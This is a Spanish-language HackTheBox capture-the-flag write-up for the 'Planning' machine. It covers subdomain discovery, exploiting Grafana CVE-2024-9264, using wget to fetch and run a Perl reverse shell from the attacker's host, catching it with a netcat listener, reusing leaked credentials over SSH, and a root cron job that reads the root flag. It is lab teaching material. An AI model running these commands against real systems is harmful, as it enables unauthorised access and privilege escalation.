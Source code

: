 # Planning

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.11.68

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador del sistema Linux.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `python3`, `wget`, `netcat`, `ssh`, `crontab`,`linpeas.sh`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap 10.10.11.68

nmap -sC -sV -p 22,80 -T4 10.10.11.68
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Tras ingresar el nombre de host en el fichero /etc/hosts, ingresamos en el sitio web del puerto 80 y tratamos de buscar vulnerabilidades o errores.

![Vista general del sitio web](screenshots/2.web_site.png)

Tras realizar numerosos escaneos como de directorios, ficheros, versiones, etc, obtenemos un resultado curioso en la búsqueda de subdominios.
Tenemos un servicio Grafana ejecutándose en la máqunia víctima.

```bash
gobuster vhost -u http://planning.htb -w /usr/share/wordlist/SecLists/Discovery/DNS/combined_subdomains.txt -t 50 --append-domain
```

![Descubrimiento de dominios desde el host principal](screenshots/3.gobuster_vhost.png)

Añadiremos `grafana.planning.htb` al fichero /etc/hosts para acceder al servicio a través de la URL. 

Echando un vistazo simple al sitio web, apreciamos la versión de Grafana en la parte inferior (11.0.0).

![Vista general del servicio Grafana](screenshots/4.grafana_version.png)

Al investigar por internet nos percatamos de un CVE relacionado, con un exploit que nos podría dar acceso.

![Página principal de GitHub sobre la vulnerabilidad asociada a la versión de Grafana](screenshots/5.github_cve.png)

Entre otras cosas, comprobamos las versiones de programas que podemos utilizar para establecer una reverse shell (PHP, Pyhton, Ruby, PERL...) y nos devuelve que PERL sí que está instalado.

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl --version' http://grafana.planning.htb
```

![Ejecución de fichero para la explotación de la vulnerabilidad para comprobación de versiones de servicios](screenshots/6.checking_version_services.png)

Una reverse-shell que suelo usar para PERL es la de pentestmonkey (https://pentestmonkey.net/tools/web-shells/perl-reverse-shell).

Abrimos un servidor Python donde tengamos el fichero en PERL para compartirlo y poder descargarlo desde la máquina víctima.

```bash
python -m http.server
```

![Compartiendo reverse-shell en perl para descargarla desde la víctima](screenshots/7.sending_reverse_shell.png)

Aprovechando la explotación del CVE que hemos realizado antes, descargaremos con Wget el fichero PERL en la máquina víctima y lo ejecutaremos una vez tengamos Netcat escuchando en la terminal.

```bash
nc -lvnp 4444

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'wget http://10.10.14.109:8000/perl-reverse-shell.pl' http://grafana.planning.htb

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl perl-reverse-shell.pl' http://grafana.planning.htb
```

![Descargando y ejecutando la reverse shell desde la víctima ](screenshots/8.executing_reverse_shell.png)

En la terminal recibimos una shell como usuario root, pero al investigar los directorios personales y usuarios no encontramos nada relevante.

![Obteniendo una shell desde netcat tras la explotación de la vulnerabilidad](screenshots/9_accesing_with_netcat.png)

Intentamos indagar un poco más con la herramienta `linpeas.sh`, de manera que con un servidor Python lo compartiremos y lo descargaremos y ejecutaremos en la víctima.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```

![Ejecución de linpeas.sh bsucando vulnerabilidades para escalada de privilegios](screenshots/10.linpeas_result.png)

La herramienta linpeas.sh nos indica que en las variables de entorno hay unas credenciales. Puesto que no obtenemos nada más relevante, trataremos de entrar por SSH a la IP de la máquina víctima, suponiendo que estamos dentro de un contenedor.

Con el usuario `enzo` si que encontramos la primera bandera en el directorio personal del usuario.
```bash
ssh enzo@10.10.11.68
```

![Utilización de credenciales encontradas para primera bandera](screenshots/11.ssh_user.txt.png)

Vamos a buscar otros ficheros ocultos con la misma herramienta (linpeas.sh) de manera que la subiremos a esta máquina.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```

![Ejecución de linpeas desde la nueva sesión para buscar ficheros comprometedores](screenshots/12.ssh_linpeas.png)

El resultado del escaneo es un fichero en /opt/crontabs/crontab.db que contiene una base de datos de un servicio crontab, incluyendo unas credenciales. 

![Fichero encontrado con credenciales e indicaciones de un nuevo servicio](screenshots/13.crontab.png)

Tras un rato de investigación, la clave podría estar en un servicio Crontab UI en un puerto de la máquina. Comprobamos los puertos abiertos y, según la documentación oficial, Crontab UI por defecto se ejecuta en el puerto 8000.

```bash
netstat -tuln
```

![Comprobación de puertos para averiguación del servicio](screenshots/14.netstat.png)

Para comprobarlo vamos a abrir un túnel SSH para que el puerto 8000 de la máquina víctima se refleje en el puerto 8000 de la máquina local.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

![Creación de túnel SSH](screenshots/15.ssh_tun.png)

Al entrar, vemos un panel de control de Cronjob UI desde el que podemos crear una nueva tarea. Ya que estas se ejecutarán como root, podemos hacer que copie el contenido del fichero que contiene la bandera de administrador en otro fichero en /tmp con permisos de lectura para todos, y así podremos verla sin necesidad de entrar a la sesión de root.

```bash
cat /root/root.txt > /tmp/flag.txt
```

![Creación de tarea crontab para que muestre el fichero de la segunda bandera en un fichero accesible desde mi usuario](screenshots/16.showing_flag.png)

Símplemente nos queda ejecutar la tarea manualmente y buscar el fichero flag.txt en el que encontraremos la bandera.

![Crontab UI con la instrucción ingresada para ejecutarla](screenshots/17.crontab_ui.png)
![Obtención de la segunda bandera después de la ejecución de la tarea crontab](screenshots/18.flag.txt.png)

